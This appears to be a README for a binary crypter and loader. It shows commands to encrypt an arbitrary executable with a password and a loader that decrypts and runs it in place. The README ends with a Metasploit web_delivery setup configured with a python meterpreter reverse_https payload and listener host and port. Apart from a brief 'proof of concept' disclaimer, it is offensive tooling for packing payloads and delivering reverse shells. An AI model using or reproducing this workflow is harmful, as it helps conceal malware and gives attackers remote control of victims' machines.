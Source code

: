 ### encrypt any bin first using a password
> go run encryptor.go /usr/bin/ls encrypted_binary abcd1
>> `abcd1` -> is the password

### use the loader to decrypt and run the binary
> ./loader encrypted_binary abcd1


> please guys, i am not responsible for anything you do with this, i am doing this just for a proof of concept.
> i am not responsible for any damage caused by this.

> https://www.youtube.com/watch?v=nBKiVwEOWuk


```
                                                                                                     
      ;~{>)²‹                                               [t³­˜>c–                                 
    ÷˜    ›°·»úë0÷                                       ³•‘¾c«²z)v2¼                                
   ˆ«^—   ³”* —¬¤ôøý4’                                 ×7!–¼½»ªö­‡ö;«1                               
   ?  ì   ‹“ ’> «+}îSñÿ¶<                            [öì‚i)× ÷)i“)°©¯I                               
   »   j  ›    ¦77–›?Y&Ý5Óß                         öÏ¾˜t¼I<^¤Jôz¯¿¢?d                               
   í “‡ˆ—{  º’ ˆ`~v­²íÍ<!ž§ÓËI                    ˆxï†ˆ²aI—ìZ3²I??u¼>P  ¨xkµˆ                        
   ™      +½ƒ±n’˜¦»¬²d{ˆ@’¬¾áÖÉS                  î‘& ª!u?xfD&3r²‡íˆOq  ¼                      <?”F  
   )«   ’”  ¨!ì½ƒ4n¤’(„+»<•!?£PFWO               [~¯yª)° xDòäàx²†¼=`¾E  ü³                        ®; 
   ‚ì ¿ º‘ ‘v¬jv‰ò}¤tZ+·–¹„îov)2ÙÒ#µ            J  ïƒ|÷~îf24ûùn•ò+(z2B° ‚£                       ³ë  
    ÷   (  î[>ì?}y:’í¬j)•÷¬¡ x~<~™ÒèŒ‡         >²¯¡ˆ‘‰›ï·õòT9ü²òî;ÓQîgi  ;©                      6¸  
     ô    rˆrªo/»@¤c†ù¦ ü í–:?«S:+IàSkÉ‹      <‚–J”–cóª³:vò¥Ü<•y¯3õý@Ë‰   —ü²                   Jí   
      ˜   ”·(¹{»?—µ?)äö¤aó!!{)?¯*2l×jÿøXa    |›ï I–¿ºïi¬sÇ¥»?7¤ö[ÍbÜU#Ì     4i                 ƒu    
      i  )‹  7»   ûtuh «jˆ)^(|›^{÷a%‡?5ÛEB! «´¦¡‡¿ï¯­?÷!;o}šá£Ï[ü6µÒžB}      õ1               `Í;    
      |¬`   ²°`+¯ ª˜”ä‹¨{ª|;{“ö­‰t{jùí{iÚðÐ®3  +¿z¯ˆ°1ºv}„‰²U¼v›Sôfqúœ!       xƒ              úí     
       ª r  ‹“ ¨t:íªvÞ?ï´–´/í?v×òˆ?¡?V*[JÍbŒÅî—(†z¯C²“!*²;3C=¢6Iò‡9å9Ž;        pw            ²à      
       ì`  ii  ~~‰ ×!7 ²4);†{zƒ>¼{=ª+ív™IIJÙÿÑÌv}!=i ò¬˜tì®zº¦¿lûYOÒÏæ          £©           3ú      
       „   t  ƒ³  ƒ­ !IJò ª†o<>%¥ì1>•}}iÏå½lìmËÙ–V¯¯;?”|1²7—ö)^ÏÜÏ±g™þ           YÌ         ­P       
        t   {—°  ò°¡ˆ}–<ì ö7¬}†v×¯ü7zwl)vYrf&cCèÆü)i7»¬í:í«)¦[³5yUxüµm         –  ©h        ‡V       
        !   :: ) ²;;?‰ `÷ ³ì;*<ï«)[Iu‡<%í[‰n<s±ïVâ€JIt¯Ï¯))t=ìnñTh6k6Î       £±c   4O       b×       
         L      >ª~¨   ?/  ö=}7×7l7¿ƒíƒò¤j<ìó¼=o±ïVKh•r¹I¹í;S«>YÿUý‰ñ‡       ¡¢½    yÍ     …Ù        
          »|}<Ii?ù   ¨¸×› <•–?r¬*¤»­?¬i1j£iîvö7ó7ajJ3Wf³I*‚î±I¦YüÿŸaÀ­       ˆäµ­    EO’  ;Èÿ        
            í  –}¯  ‘3¢      :j)’;<{ª=rIJ s=¬‡>?tû×l«eèH¼ò¬”?´iIYÚ&LZ         xXï˜   vÂ©  ŸÙƒ        
              I       ’   ‡‰  ª7^ºI¤ ¡?×>rjí<¿>)?í7¢†@îÝŒŸ¼„3@×IOá4h¥   ­ï7<›‚÷sAc    é®<»É0›        
     ‹?Lõƒv){[÷›²¤v†9üDZf©¢[–÷¼Ír<¤==»J<¿×<ÏTî<1t†ív<I<ö3ûWÍ)wÏáQÓ€ë^   `îï…çðµ&4ÙáŽE§òÊµJmP         
   †[³   :¦„²’“ˆ­*/?¿20t¿+zÏl?^v1IÝañÙðÒÎüží«—+<v=vì/?<cíöVÎÛöÄKê€éÄ„´°?‚ %ƒÓQÆéEÚ€9[?/¿P€ã„ 7¼÷     
  ¬(  –†/¹¹<|/³˜²„ˆ³)){/÷ïv}vzYí7vIv0¼ïc‰>¿ì¤ƒƒžŸhµk™?„i?íò3óFÐÆÆÉÆRêÐK¥øÜñÿØÉHhQÇéÂRÒ2  ˆ=tmœÿY†+   
  «¹  ’   ¸¹!}i»Ìƒo¬;«¬ª^{ujlI(ˆ …+’ˆ˜’?¿‰¤@‡j1ILúçLaûñµUmh‰5TµbÂÆæÈBgœÚÛØÑÆÆÊÅæÆÃÿv‰õç=S  7cÙÃwod^  
   —            ˆ        ª!«{*ª                       ¡‡cJ0¼ôµBÆÈMÈæÙKåBÇ$åŠéMÄÂŽŠáÿ€Äø¹ü©  ½¤€µox4  
   «       ‘«írl¦       :!ªi   u                    °vi>iY=½¶ÉMKÄÑ8þ#€µ6x$åTIÆÅÆB€ÈÆÌœS1ìCä ^SªQ!¶h` 
    “          ‚‘·º   ¨­›­º}vz®92¤L©ƒÌn‰o3ùüö¦’ˆ|>¿¼u>iJ©o?14ã46A6¥eÚJ±Ðë“ùá &ÆqÉBEÆžÕXJC<å´ªù•šmVk  
     /     ’˜ «)¯|“    )òfÌç¢<v(î*{/¯¯I±ni1nùzCôµ—^+‚­Iy1v‰mýÿZ»é®Ieï¼SŠ&Ÿø´f”ËÆÛÂ€EQœm÷t;š:?iárÆã2  
      j…¯{„­    ‹~º‘‹îtö{?“ª÷¦)”¬¤I7+¬!}v)oï)¼ŸOÎùÍ¼í=éÐWëóÇGÊÜÎìùaaf72‡lYåºŸ¼ÊÑÊ$NŽHgXVakÇ IYV§Æß   
       ¹~ ¯ˆ    ²¸>¼vr¢J›o*‚7~^;‰ç[ˆ4u>!¦5í“DDS› o3ŸçméÔÉG§ÞÂÆXg?2®(üÍLä$Bßáv$ØÆÊÈmKHBœmÜÜôlöý>Ù÷    
         v?   ˆ‹@¬×v1:”ï²`u¢¿“![)¾³¯*/°t4û©!óÕ$© slFFŸðÂÆ€DYýôÀHjJÎxÙešáéêèá€á$ãâØBÆMRðRÀBWÆÂWÊÎ     
            (…}0C[•{²„¢¯¹º¯•²5O2²/^0ya}õC5DÙF€m21q©ãðÔÀQØRZäÔ¦ÙmƒxxµZéPÂÆXéM2ŒÉhËÃÇ4<pÜÑNÑœÞýÿÚ      
            ´6Ÿ0ƒ«)<í!?÷”ª!5h®šShüûXgx üxŠmÜDÙÞj±KLŸæQÄéÂŒE8V;6øo“ÖÖœŽÁÜÊWMÑWæÑÀÃš4² øpaŠþ®3ü#Sh     
           »ähÓmÅŠ0i”;i„¿{{ÖmgÈæÔŠ&œ#h´š<ÑþÄéhëoóHàYBØ#ÃÅgÈps“åÓû»tAXÄEÆÑæNÑŽæÀRã£¯(%óÐ å©‡t•dåY}    
          òdÓpqøâmÛÐØNØÆÆÆÆÆmÆWHÿèµêÅV/M¾ŸÊÊMšd==HéfúÔÉBBŠQê§žEÿs¦ qÄÉÂÆÊÑŒ#ÛBÓÿá™;  ìg•4Ol…  ŽŠy    
         ®ñÓRÆŒKAéâdŠEqÙTÐAþÿÿÕÉAÕŸKÀn¦M¶ƒYQR¶8+ Üð&®½ßØEÉNãœ8#pþülÃÂÊÉÈÆÆÊp$ÕäÍ†   ˜SûËC/    ¨gõ^   
          ÞœÆ€ðNÉÂEÀÑœß§äµý£µmõéMÑÞÅQÍ’ËdÖÐšØÆ4ª øéâÓfžÆÆÆþMÁéü¼ÞÞAÑW#BÆØMàEÜó›     ÏŸ: Yt´    cHi   
         »®ÕÆÊÆÆMŸéRF¾Y¢Pàz7èçžýŠèâmÄ( æpgÞÔáÚÿì Këñäh½ŸÆŒKÆØÕâF§ŽêŒÆEEØ8éGp        šs  v™v     £ó   
        ›úÞÊœÅmœŽÂEEü¡iS3½o°ìT§N¶PZÿ!` ENÞâäµ¥ãNÀÃXâøô££ÑÆÑËÉÔÃðûœqÉŒœþTýÿX6       •µ    |L¼    <U   
        a8êÐNøßEÅä9ašå9@|  >cõfÖÓSbœu½˜XœØŠÒaw¢FÿÆÂÜÿgSWÆÆBÅØR#ÕÇ8š€&¤r3‹ •š„      òt     ·L½   ‚6   
       ÏûÆÊ#ðœmþûDUTŸ&ŸúdŠª  ¯@ûÏ xFå6šG8ØØðÎ¾6xéÐÖeµhENŒÀbœð4ü%h[¦  ‘     ˆhí      o       ƒz  ¸i   
      úDœËâÕ€ŒØéµYÒ&úîrY!ÎõBÎ fU[7c¾¼©2£ÝðÊmðáµákJþåwaHü{>»äÎ• ’S+           uÇ     ‰         5 «    
       0ÆÆÓµpŒÝÖ$ÎA¼IY¦[‚  Sšm¶xÍ5ú6ìò½šøWèŒAÇäµaœ£éÇ:/½   (u  ’8„            !9`   y                
        „ÙQÆÑÆÉDàŸy¾¤»?¡    j¼µXÉS49}%xèÓÊÆbëFÇÚP!Îl       ‘D  ³m¯              0Y   î               
        ×Î$þHÄÈŒÑŒâU£/í    «ii2ÝÔqmZ=ç5Ò¥mœŒpY @ú·Î–       `Š  jl<`              ™ô~ >               
        öqÂÂ¾ëñœŽ2¼èP$Šü  ^×^üö™ü®žDCóÜqÿmð    Z˜ ó»V       Ç¦ ûªÏ¿             ©  Û  ƒ              
        ëÜÆÉA®HÙbüxI«tüY4ßÚú«×¼eñ¼üÿ©Þ8£éý    ï©  Ißö)      §} ;´ ’á¹                  Ì             
       ˜ÛgÕÄÕðþqšúá±o   ²C3ÒÊé/çÿêÎÒíµŠÆe     4    }ç       i}      ìl                               
        ’QØÆÆÆÆÆÊgý1:  ‚)a‘z4ÜŽÑh6µþêð       L%    ˜B”     `í¿        v¨                             
          ëÊÉÅþRøBFwrO€EÊHFä7GÙèë^çµZ     ­››4      òü        ´ˆ       µ}                            
          ¯ÔÃÐÐNfÈ£¡  aSlnìóµ¹      Ô~       )       1¦                 <‡                           
           £êÆŽŒ$õµ¤  |ÌF523†       ·=        „      &/                  7v                          
            ñáãEÈÉMŽÖoî+¬^ú          ±       /`      ’¾                 ‹7 t“‚                       
              nâÖäœbÙP¡|ÿöº          {=      ›        f·                                             
               ²Ð4ýÞñB#™¸ 6           Ï    [¸         ‡|                                             
                 ßžØœmÜ®Y§¦c¶±?/—     ~î s¯           u3›                                            
                    ¹@SÙÅ¥äGÁB&t?    v+w¸           ²:                                               
                           ¼µÏ%t„²²››  ¦%                                                            
                                       ·;¿ó…                                                         

```



> docker run --rm -it --network host metasploitframework/metasploit-framework


Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.7      yes       The local listener hostname
   LPORT  444              yes       The local listener port
   LURI                    no        The HTTP Path


